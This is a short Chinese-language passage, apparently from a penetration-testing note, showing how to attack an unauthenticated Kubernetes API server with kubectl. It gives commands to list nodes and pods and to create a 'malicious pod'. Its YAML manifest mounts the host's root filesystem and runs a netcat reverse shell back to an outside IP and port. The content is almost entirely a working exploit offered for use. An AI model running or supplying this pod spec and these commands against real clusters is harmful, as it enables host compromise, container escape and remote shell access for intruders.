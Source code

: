 ![img](..\..\images\894761-20240102090511963-1967705756.png)

#### 漏洞利用

##### 通过kubectl命令攻击

```shell
# 查询nodes和pods
kubectl -s http://ip:6443/ get nodes
kubectl -s http://ip:6443/ get pods
kubectl -s ip:6443 get pod -n [node]

# 创建恶意pods
kubectl -s http://ip:6443/ create -f test.yaml
```

test.yaml

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: test
spec:
  containers:
  - name: busybox
    image: busybox:1.29.2
    command: ["/bin/sh"]
    args: ["-c", "nc 192.168.125.130 7777 -e /bin/sh"]
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
```
